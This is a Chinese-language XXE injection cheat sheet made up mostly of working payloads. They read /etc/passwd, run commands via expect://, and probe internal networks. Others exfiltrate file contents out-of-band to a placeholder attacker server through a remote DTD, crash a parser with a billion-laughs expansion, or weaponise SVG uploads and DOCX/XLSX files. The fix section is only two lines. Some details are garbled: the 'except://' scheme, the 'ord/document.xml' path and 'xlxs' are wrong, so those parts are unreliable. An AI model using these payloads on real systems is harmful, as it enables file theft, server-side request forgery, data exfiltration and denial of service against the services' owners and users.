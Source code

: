 # XXE

XXE全称为 XML 外部实体注入，XXE漏洞存在于使用XML解析器的应用程序中。

攻击者可以利用这种漏洞向应用程序发送恶意的XML输入，从而导致敏感信息泄露、服务器端请求伪造（SSRF）等安全问题。

## XXE类型

### 有回显

读取任意文件

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "file:///etc/passwd">]>
    <root>&name;</root>
    
命令执行

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "except://ls">]>
    <root>&name;</root>

内网探测

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "http://192.168.1.1">]>
    <root>&name;</root>    
    
### 无回显

HTTP外带

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % remote SYSTEM "http://攻击者服务器IP:8888/evil.xml">
    %remote;
    %all;
    %send;
    ]>
    <root>&name;</root>

evil.xml

    <!ENTITY % all "<!ENTITY % send SYSTEM 'http://攻击者服务器IP:8888/1.php?file=%file;'>">

拒绝服务攻击

    <?xml version="1.0"?>
    <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
 
 ## 场景
 
 ### 用户输入嵌入到服务端解析的XML文档
 
 比如：检查库存功能
 
 因为无法控制整个XML文档，所以无法定义DTD来发起经典的XXE攻击。但改用XInclude，XInclude是XML规范的一部分，它允许从子文档构建XML文档
 
 payload
 
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    
将上述payload替换库存的id

### 基于XML格式的文件，比如DOCX文档、SVG图像等

#### 比如：头像上传处

svg文件payload

    <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls" width="200" height="200"></image>
    </svg>
    
然后头像就可能显示出数据

---

#### 比如：在线阅读DOCX文档、网站在线解析DOCX文档等功能

DOCX文档其实就是把一堆的XML文件按照一定的格式压缩在一起。

只需要把DOCX文档的后缀改为ZIP，并解压出其中的文件，就可以清晰地看到DOCX文档的“真实面貌“。

第一个回显位置：ord/document.xml文件中

在

    <?xml version.....>
    
的下方嵌入恶意代码

    <!DOCTYPE HACK[<!ENTITY Hack SYSTEM 'file:///etc/passwd'>]>
    
随后将这个压缩包的后缀名修改为DOCX，就得到了一个用于XXE攻击的DOCX文档

第二个回显位置：docProps/app.xml

找到控制页码的标签是<Pages>

    <Pages>1</Pages>
    
修改为

    <Pages><!DOCTYPE HACK[<!ENTITY Hack SYSTEM 'file:///etc/passwd'>]></Pages>
    
随后将这个压缩包的后缀名修改为DOCX，就得到了一个用于XXE攻击的DOCX文档

---

#### 比如：Excel文件

与上面的DOCX文件类似

把xlxs文档后缀改为zip，找到xl/workbook.xml文件

    <?xml version ....>

下方添加恶意代码

将压缩包后缀重新改回xlxs文件即可得到一个恶意Excel文件。

### 修改请求包内容类型

大多数POST请求使用由HTML表单生成的默认内容类型，例如application/x-www-form-urlencoded。

将

    POST /action HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 7
     
    foo=bar
    
修改为

    POST /action HTTP/1.0
    Content-Type: text/xml
    Content-Length: 52
     
    <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>    
    
如果应用程序接受消息正文中包含XML请求，并将正文内容解析为XML，那么我们只需将请求重新修改XML格式，就可以达到隐藏的XXE攻击面。
    
## 漏洞修复

* 禁用外部实体
* 过滤关键字，如<!DOCTYPE 、<!ENTITY、SYSTEM和PUBLIC等
